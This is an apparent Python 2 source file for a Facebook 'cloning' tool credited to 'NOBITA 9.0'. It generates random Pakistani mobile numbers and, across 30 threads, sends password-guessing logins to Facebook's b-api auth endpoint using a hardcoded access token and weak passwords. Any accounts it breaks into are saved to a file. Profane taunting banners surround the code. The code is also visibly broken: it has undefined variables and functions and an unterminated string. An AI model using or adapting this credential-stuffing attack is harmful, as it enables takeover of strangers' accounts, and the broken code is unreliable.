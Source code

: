 # Author NOBITA 9.0#!/usr/bin/python2
#coding=utf-8
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(40000):

    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install request')
    time.sleep(1)
    os.system('Then type: python2 ABF2.py')

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
	print 'Thanks.'
	os.sys.exit()

def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')


def jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(00000.1)
def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\x1b[1;93mWEAIT PLAESE \x1b[1;91m"+o),;sys.stdout.flush();time.sleep(1)


back = 0
oks = []
id = []
cpb = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"

os.system("clear")
print  """
'NOBITA 9.0
                   
\033[1;93m              ъзБтШатДЬЁЭФжЁЭФЮЁЭФ╖тШая╕ПъзВ :)) 
\033[1;95mтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАв      
\033[1;94mтЮг \033[1;96mHATERX FEEL ON RAKHO MR ъзБтШатДЬЁЭФжЁЭФЮЁЭФ╖тШая╕ПъзВ (^o^) ..
\033[1;97mтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАв      
\033[1;92mтЮг \033[1;92mDEVOLPER   :            NOBITA
\033[1;91mтЮг \033[1;92mFACEBOOK   :            https://www.facebook.com/nobita9.0.is.here/
\033[1;93mтЮг \033[1;92mINSTAGRAM   :           nobita_9.0
\033[1;96mтЮг \033[1;92mGITHUB     :                
\033[1;97mтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАв      
\033[1;92mтЮг \033[1;96mNOTE IDS JUST NOW ON KARO ..
\033[1;97mNOTE MULTIPLE SEARCH PLY STORE WAHA SE ON KARO             
"""

####Logo###

logo1 = """
'
NOBITA 9.0
 уАА 
\033[1;97mтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАв      
\033[1;93mтЮг \033[1;96mъзБтШатДЬЁЭФжЁЭФЮЁЭФ╖тШая╕ПъзВ SISTIM FUCKER ..
\033[1;94mтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАв      
\033[1;95mтЮг DEVOLPER     :        NOBITA 9.0
\033[1;96mтЮг FACEBOOK     :https://www.facebook.com/nobita9.0.is.here/
\033[1;94mтЮг GITHUB       :           
\033[1;97mтЮг INSTAGRAM     :        nobita_9.0
\033[1;92mтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАв      
\033[1;93mтЮг \033[1;96mYOU CAN COPY ME BUT YOU CAN'T BE ME..
\033[1;94mтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАв      
"""
logo2 = """
\033[1;91
' NOBITA 9.0
                                           
                                           
\033[1;92mтЮг      FUCK YOUR SISTIM MARK ZUCKERBERG
\033[1;97mтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАв   
\033[1;96mтЮг \033[1;93mHATERZ FEEL ON KORE NEO ...
\033[1;97mтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАв    
\033[1;91mтЮг \033[1;92mAUTHOR    :   \033[1;97NOBITA
\033[1;92mтЮг \033[1;93mFACEBOOK  :   \033[1;97mhttps://www.facebook.com/nobita9.0.i.s.here/
\033[1;93mтЮг \033[1;91m INSTAGRAM  :   \033[1;97m nobita_9.0
\033[1;94mтЮг \033[1;96mGITHUB    :   \033[1;97m
\033[1;96mтЮг \033[1;92mLEGAND PLAYEER       :   \033[1;97m
\033[1;91mтЮг \033[1;93mVERSION   :   \033[1;97m1.0.8
\033[1;97mтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАв      
\033[1;91mтЮг \033[1;93mCP IDS JUST NOW OPEN..
\033[1;97mтАвтАвтАвтАвтАвтАвтАвтАвтАввтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАвтАв     
"""
CorrectUsername = "NOBITA"
CorrectPassword = "NOBITA"

loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;91mтЮг \x1b[1;93mTOOL USERNAME \x1b[1;97m┬╗┬╗ \x1b[1;97m ")
    if (username == CorrectUsername):
    	password = raw_input("\033[1;92mтЮг \x1b[1;93mTOOL PASSWORD \x1b[1;97m┬╗┬╗ \x1b[1;97m ")
        if (password == CorrectPassword):
            print "Logged in successfully as " + username #Dev:THE ZEEKO
	    time.sleep(2)
            loop = 'false'
        else:
            print "\033[1;94mWrong Password"
            os.system('xdg-open https://facebook.com/nobita9.0.is.here')
    else:
        print "\033[1;94mWrong Username"
        os.system('xdg-open https://facebook.com/nobita9.0.is.here')



##### LICENSE #####
#=================#
def lisensi():
    os.system('clear')
    login()
####login#########
def login():
    os.system('clear')
    print logo1
    print "\033[1;93m[1] START "
    time.sleep(0.05)
    
    time.sleep(0.05)
    print '\x1b[1;91m[0] EXIT'
    pilih_login()

def pilih_login():
    peak = raw_input("\n\033[1;95mCHOOSE: \033[1;93m")
    if peak =="":
        print "\x1b[1;97mFill In Correctly"
        pilih_login()
    elif peak =="1":
        Zeek()
def Zeek():
    os.system('clear')
    print logo1
    print '\x1b[1;92m[1] START CLONING '
    time.sleep(0.10)
    print '\x1b[1;91m[0] Back'
   
    time.sleep(0.05)
    action()

def action():
    peak = raw_input('\n\033[1;93mтЮг \033[1;97mCHOOSE: ')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "\033[1;94mтЮг \033[1;93mEnter any Pakistan Mobile code Number"+'\n'
        print '\033[1;95mтЮг \033[1;93mExample'
        print '\033[1;96m[+] Jazz    :  00 01 02 03 04 05 06 07 08 09   \033[1;92m[+] Zong    :  10 11 12 13 14 15 16 17 18      \033[1;92m[+] Warid   :  22 23 24 25                     \033[1;92m[+] Ufone   :  31 32 33 34 35 36 37 38         [+] Telenor :  40 41 42 43 44 45 46 47 48 49' 
        try:
            c = raw_input("\033[1;92mтЮг \033[1;97mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;94m-'
    xxx = str(len(id))
    jalan ('\033[1;94m[+] Total ids number: '+xxx)
    jalan ('\033[1;95m[+] Code you choose: '+c)
    jalan ("\033[1;96m[+] Wait A While Start Cracking...")
    jalan ("\033[1;95m[+] To Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[Successfull] ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/Checkpoint.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;96m[Checkpoint] ' + k + c + user + '  |  ' + pass1
                    cps = open('save/Checkpoint.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + c + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;92m[Successfull] ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/Checkpoint.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;96m[Checkpoint] ' + k + c + user + '  |  ' + pass2
                            cps = open('save/Checkpoint.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="123456789"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;92m[Successfull] ' + k + c + user + '  |  ' + pass3
                                okb = open('save/Checkpoint.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                               if 'www.facebook.com' in q['error_msg']:
                                   print '\033[1;96m[Checkpoint] ' + k + c + user + '  |  ' + pass3
                                   cps = open('save/Checkpoint.txt', 'a')
                                   cps.write(k+c+user+pass3+'\n')
                                   cps.close()
                                   cpb.append(c+user+pass3)
                                                                                                                                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                          
        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/Checkpoint')
    jalan("Note : Your Checkpoint Accounts Will Open after  12 days")
    print ''
    print """
    \033[1;92m.                                  _____________┬╢┬╢┬╢┬╢┬╢┬╢┬╢┬╢┬╢┬╢┬╢┬╢┬╢┬╢┬╢______________
:)NOBITA 9.0-^-

    
    raw_input("\n\033[1;92m[\033[1;92mBack\033[1;95m]")
    login() 
          
if __name__ == '__main__':
    login()
